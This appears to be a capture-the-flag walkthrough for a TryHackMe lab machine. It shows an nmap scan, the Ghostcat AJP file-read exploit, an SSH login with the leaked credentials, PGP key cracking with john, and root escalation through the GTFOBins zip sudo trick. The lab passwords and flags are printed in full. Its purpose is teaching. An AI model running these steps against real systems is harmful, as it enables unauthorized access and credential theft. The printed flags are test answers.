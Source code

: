 
---

 > Start with an `nmap` scan of the target:
 
```bash
└─$ nmap -sC -sV -Pn 10.10.16.95                     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 12:56 EDT
Nmap scan report for 10.10.16.95
Host is up (0.33s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.62 seconds

```

We see there are open ports for `ssh`, `http`, and `ajp13`.
* `ajp13` is Apache Jserv Protocol, and it is a protocol that allows communication between Apache server and web application. It also works well with `tomcat`

> Using `searchsploit` to search for an exploit for `ajp`:

```bash
searchsploit ajp
```

![](./screenshots/ajp-1.png)

We see that there is a python exploit file available `48143.py`.

```bash
└─$ searchsploit -p 48143   
  Exploit: Apache Tomcat - AJP 'Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
```

> Copy this file to our working directory to not make changes to the actual file, then work with it.

```bash
cp /usr/share/exploitdb/exploits/multiple/webapps/48143.py ./
```

Then, we run the exploit with the IP address of the target machine:
```bash
python3 48143.py 10.10.16.95
```

I got two errors, you might not get these when running. Here are the fixes:
1. Remove the `bufsize=0` parameter from the function in line 262.
2. Change the last line, line 301 to `print("".join([d.data.decode('utf-8') for d in data]))`.

After running, we see that the exploit returns for us the content of the `WEB-INF/web.xml` file. This file contains any initialization parameters and container-managed security constraints that you want the server to enforce for you.

The output of this file contains a username and password: `skyfuck:8730281lkjlkjdqlksalks`.

These can be used to login via SSH to the server machine.

```bash
ssh skyfuck@10.10.16.95
```
- Entering the password we obtained successfully opens an SSH connection.

Upon entering, we can move to the `merlin` directory for the user. Listing the files in that directory using `ls`, we see the `user.txt` file.

###### Compromise this machine and obtain user.txt: `THM{GhostCat_1s_so_cr4sy}`

In the `skyfuck` user directory, we see 2 files.
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

> These are private files that contain passwords. We can crack them using `john` tool to obtain the passwords.

First, we download the files to the local attacking machine:
```bash
└─$ scp skyfuck@10.10.16.95:/home/skyfuck/* ./Desktop
skyfuck@10.10.16.95's password: 
credential.pgp                       100%  394     0.6KB/s   00:00    
tryhackme.asc                        100% 5144     7.6KB/s   00:00
```

Now, we can use `gpg2john` on the `tryhackme.asc` file and store it in a file called `hash`.
```bash
gpg2john tryhackme.asc > hash
```

Now, we can use dictionary attack using `john` on the `hash` file to find the password:
```bash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-03-29 16:30) 20.00g/s 21440p/s 21440c/s 21440C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We get the username password combination `tryhackme:alexandru`. 

> Now, we can use that to decrypt the `.pgp` file.

1. Import the `.asc` file.
```bash
gpg --import tryhackme.asc
```
2. Decrypt the `.pgp` file using the password uncovered above.
```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We see the username password combination for user `merlin`, `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`.

Now, we can change user to `merlin`:
```bash
su merlin
```
> enter the password we found above.

As `merlin` we can find if we have any privileges we can exploit using the `sudo -l` command.

![](./screenshots/merlin.png)

> We see that we can run `zip` as root. Head to [gtfobins - zip](https://gtfobins.github.io/gtfobins/zip/) to exploit the `zip` sudo privilege.

Running these commands as seen in the website, we can achieve SUDO privileges:
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

After running them, we are taken to a root shell. We can now read the contents of the `/root/root.txt` flag file.

```bash
cat /root/root.txt
```

###### Escalate privileges and obtain root.txt : `THM{Z1P_1S_FAKE}

---

`